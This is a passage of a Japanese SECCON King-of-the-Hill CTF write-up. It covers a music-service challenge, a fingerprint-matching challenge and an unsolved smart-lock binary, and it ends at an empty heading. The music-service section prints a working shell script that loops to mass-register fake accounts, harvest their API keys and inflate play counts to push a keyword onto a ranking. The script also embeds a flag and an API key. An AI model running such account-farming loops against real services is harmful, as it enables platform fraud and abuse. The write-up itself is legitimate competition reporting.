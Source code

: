 #### アカウントを量産して再生数を稼ぐスクリプト

```sh
export FLAG="176872aa9e14b27d972e2c56b1ec16db"
export USERID="2099"
export APIKEY="8be67707f019fe37fb4cf74e096b815ebcebfc7fc10790d19e8d71eb32482d49"
export RESP=$(curl -X POST http://fuchu.koth.seccon/files -H "X-FUCHU-KEY: $APIKEY" -F "file=@./po.wav;type=audio/wav")
export UNIQID=$(echo $RESP | sed -E 's/[^:]+:"([^,]+)".+/\1/')
export PAYLOAD=$(printf '{"name":"%s","unique_id":"%s","artist":%s,"description":"hello"}' $FLAG $UNIQID $USERID)
curl -X POST http://fuchu.koth.seccon/songs -H "X-FUCHU-KEY: $APIKEY" -H "Content-Type: application/json" --data "$PAYLOAD"

while true
do
	export USER=$(head /dev/urandom | md5)
	export PAYLOAD=$(printf '{"username":"%s","password":"Hello I Am NaruseJun","email":"%s@seccon.jp","sex":"0","birthday":"2018-02-15","free_text":""}' $USER $USER)
	curl -X POST http://fuchu.koth.seccon/users -H "Content-Type: application/json" --data "$PAYLOAD"
	export PAYLOAD=$(printf '{"username":"%s","password":"Hello I Am NaruseJun"}' $USER)
	export RESP=$(curl -X POST http://fuchu.koth.seccon/auth -H "Content-Type: application/json" --data "$PAYLOAD")
	export APIKEY=$(echo $RESP | sed -E 's/.+"(.+)".+/\1/')
	node increment.js $UNIQID $APIKEY
done
```

これらを用いると、ディフェンスキーワードをランキングに載せることができるので、
チームメイトにお願いして書き込み続けてもらいました。

## 船橋

提示された指紋画像と一致するような、別の指紋画像を20個の候補の中から10秒以内に選択するような問題が10題出され、
そのうちいくつかに正解できればAttackPointが手に入ります。5問以上を解くことができれば、DefencePointも手に入る様子。

教師用データセットも与えられるので、機械学習するのが正攻法？
他のチームの方に話を聞いたら、そもそも問題として出て来る画像のバリエーションが多くないので、力押しでなんとかなる……らしい。

ボクが目視でそれっぽい指紋を選んだら通りました。
競技開始直後に説いているチームがちらほらいたので、気合で解けそうだなぁという気分がしていました。

## 幕張

スマートロックのアプリ(x86_64 ELF)を解析する問題。解けませんでした。

後から聞いた話だと、MQTTでいろいろしていて、SubscribeするとFLAGが降ってくるとかこないとか？
なんか外と通信しているんだろうなぁというのは分かったんですが、
ELFが動いて競技ネットワークと通信できるような環境を用意するのが難儀で、後回しにしていました。


## 梅田
